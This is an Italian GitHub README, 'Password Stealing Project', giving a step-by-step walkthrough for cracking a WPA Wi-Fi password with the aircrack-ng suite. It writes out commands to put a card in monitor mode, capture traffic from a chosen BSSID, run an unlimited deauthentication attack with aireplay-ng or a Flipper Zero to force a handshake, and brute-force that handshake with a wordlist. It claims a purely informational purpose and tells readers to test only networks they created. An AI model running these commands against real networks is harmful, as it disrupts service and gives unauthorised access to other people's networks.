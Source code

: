 # $${\color{white}Password \space \color{red}Stealing \space \color{white}Project}$$
Il nostro progetto è stato quello di evidenziare le vulnerabilità di una rete wifi comune a 2.4GHz. Questo progetto nasce solo ed esclusivamente a scopo informativo e vi invitiamo a replicare il progetto con reti create da voi per verificarne le vulnerabilità.

## $${\color{green}Listening \space wifi}$$

Per iniziare ci servirà un OS Linux con scaricato il tool [Aircrack-ng](https://www.aircrack-ng.org/). Possibilmente usate come distro Kali in quanto preinstallato.
Iniziamo aprendo un terminale e seguendo i seguenti comandi: <br>
```bash
┌(root💀kali)-[~]
│
┕$ iwconfig
```
<p align="center">
  <img src="https://media.discordapp.net/attachments/894962833773711380/1205236414799806484/1.png?ex=662a08a1&is=6628b721&hm=e96abaa749a864390b4ee13873ab9c7a1281f3e3bb0677c5987b5c31a8c553a6&=&format=webp&quality=lossless">
</p>
Una volta eseguito il comando ci usciranno tutte le schede internet che possediamo sulla macchina. Per iniziare creiamo una scheda parallela virtuale per iniziare il listening delle reti: <br>

```bash
┌(root💀kali)-[~]
│
┕$ sudo airomon-ng start wlan
```
<p align="center">
  <img src="https://media.discordapp.net/attachments/894962833773711380/1205236418083815434/2.png?ex=662a08a2&is=6628b722&hm=3f5ff56ee293186eecdd33b3b169f04975034e815ed621b121c20dd920456cfe&=&format=webp&quality=lossless">
</p>
Successivamente per visualizzare tutte le reti disponibili: <br>

```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng wlan0mon
```
<br>
<p align="center">
  <img src="https://media.discordapp.net/attachments/894962833773711380/1205236418327089172/4.png?ex=662a08a2&is=6628b722&hm=ac028cd41dede47486ad5a29ee4992038cc01512a386566eb3c6411157ca3487&=&format=webp&quality=lossless">
</p>
Tra i risultati dobbiamo copiare il BSSID della rete in questione ed eseguire il comando:

```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng -canale -w NomeFile -d BSSID wlan0mon
```
In questo modo stiamo verificando solo la rete in questione.
## $${\color{green}Deauth \space \color{red} Attack}$$
Una volta che siamo in listening wifi possiamo procedere con il [Deauth Attack](https://en.wikipedia.org/wiki/Wi-Fi_deauthentication_attack) (Oggi useremo il Flipper Zero ma ci sono altre alternative come ESP32 Marauder ecc...).
Iniziamo facendo una scansione delle reti, selezioniamo la rete in questione e iniziamo l'attacco.
<p align="center">
  <img src="">
</p>
Attacco deauth integrato <br>

```bash
┌(root💀kali)-[~]
│
┕$ sudo aireplay-ng --deauth 0 -a BSSID -c STATION wlan0mon
```
<p align="center">
  <img src="https://media.discordapp.net/attachments/894962833773711380/1205236418616627231/5.png?ex=662a08a2&is=6628b722&hm=575b361e7a8201ce8926fdf9980cba8740ce7ac23aed1229b91d28e39ece0a48&=&format=webp&quality=lossless&width=1193&height=671">
</p>

## $${\color{white}WPA \space \color{green}handshake \space \color{red}decrypt}$$

Una volta effettuato l'attacco sul terminale linux dovremo trovare un WPA handshake. Se non compare continuiamo l'attacco in modo che il dispositivo si ricolleghi. Una volta trovato il WPA handshake nella cartella locale troveremo dei file "NomeFile" che contengono tutte le informazioni che ci servono sulla rete. Per eseguire la decriptazione della password del wifi necessitiamo di un file che contenga molte password da provare sul file criptato. Per iniziare la decriptazione: <br>

```bash
┌(root💀kali)-[~]
│
┕$ sudo aircrack-ng NomeFile-01.cap -w Password.txt 
```
<p align="center">
  <img src="https://media.discordapp.net/attachments/894962833773711380/1205236418977472573/6.png?ex=662a08a2&is=6628b722&hm=63eb531c000c29d0ac4f6842fd0a8790eb41bbc3b5bbc75b7cf561ea03a890ce&=&format=webp&quality=lossless">
</p>
Il tempo di decriptazione può variare in base alla difficoltà della password.

## $${\color{orange}Tools}$$
[Flipper Zero](https://flipperzero.one/) accoppiato con [ESP32](https://en.wikipedia.org/wiki/ESP32). <br>
Deauther più economico [Marauder](https://github.com/justcallmekoko/ESP32Marauder) sempre con base ESP32. <br>
Tool usato per condividere lo schermo in rete locale [Live-ScreenShare](https://github.com/callmenoway/Live-ScreenShare)
